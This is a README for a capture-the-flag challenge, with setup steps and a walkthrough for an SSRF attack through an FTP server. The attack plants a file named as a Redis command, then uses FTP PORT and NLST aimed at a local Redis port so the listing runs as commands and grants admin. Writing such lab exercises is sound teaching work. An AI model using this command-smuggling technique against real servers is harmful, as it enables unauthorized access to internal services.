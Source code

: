 # h0h0h0 challenge

### A SSRF through a FTP server

## How to run

1. docker-compose up --build, both ports 5000 and 5001 are used by default

## How to solve

Using the same credentials (eg: `rootroot:rootroot`)

1. Login on the FTP server with a ftp client
2. Try downloading a file name `test`, you will see an error with the path which contains your `hash`
3. Create a file named `set YOUR_HASH_admin 1` (replace YOUR_HASH) on your computer
4. Upload the file on the FTP server with `put "set YOUR_HASH_admin 1"`
5. Login back on the FTP server with telnet and enter these commands (this basicly send the dirlist to the redis server which will interpret it as commands)
    1. USER rootroot
    2. PASS rootroot
    3. PORT 127,0,0,1,0,6379
    4. NLST
    5. QUIT
6. Login back on the FTP server with a ftp client
7. Download the file named flag
